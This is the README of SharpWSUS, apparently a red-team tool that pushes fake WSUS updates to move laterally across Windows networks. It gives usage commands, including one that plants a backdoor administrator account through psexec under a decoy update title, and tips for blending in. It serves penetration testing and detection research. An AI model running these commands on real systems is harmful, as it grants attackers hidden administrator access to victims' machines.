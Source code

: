 # SharpWSUS

SharpWSUS is a CSharp tool for lateral movement through WSUS. There is a corresponding blog (https://labs.nettitude.com/blog/introducing-sharpwsus/) which has more detailed information about the tooling, use case and detection.

## Credits 

Massive credit to the below resources that really did 90% of this for me. This tool is just an enhancement of the below for C2 reliability and flexibility.

* https://github.com/AlsidOfficial/WSUSpendu - powershell tool for abusing WSUS
* https://github.com/ThunderGunExpress/Thunder_Woosus - Csharp tool for abusing WSUS

## Help Menu

```
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team


Commands listed below have optional parameters in <>.

Locate the WSUS server:
    SharpWSUS.exe locate

Inspect the WSUS server, enumerating clients, servers and existing groups:
    SharpWSUS.exe inspect

Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>

Approve an update:
    SharpWSUS.exe approve /updateid:[UpdateGUID] /computername:[Computer to target] </groupname:[Group for computer to be added too] /approver:[Name of approver]>

Check status of an update:
    SharpWSUS.exe check /updateid:[UpdateGUID] /computername:[Target FQDN]

Delete update and clean up groups added:
    SharpWSUS.exe delete /updateid:[UpdateGUID] /computername:[Target FQDN] </groupname:[GroupName] /keepgroup>
```

## Example Usage

```
sharpwsus locate

sharpwsus inspect

sharpwsus create /payload:"C:\Users\ben\Documents\pk\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \\"net user phil Password123! /add && net localgroup administrators phil /add\\"" /title:"Great UpdateC21" /date:2021-10-03 /kb:500123 /rating:Important /description:"Really important update" /url:"https://google.com"

sharpwsus approve /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"

sharpwsus check /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local

sharpwsus delete /updateid:9e21a26a-1cbe-4145-934e-d8395acba567 /computername:win10-client10.blorebank.local /groupname:"Awesome Group C2"
```

## Notes

* Binary has to be windows signed, so psexec, msiexec, msbuild etc could be useful for lateral movement.
* The metadata on the create command is not needed, but is useful for blending in to the environment.
* If testing in a lab the first is usually quick, then each subsequent update will take a couple hours (this is due to how windows evaluates whether an update is installed already or not)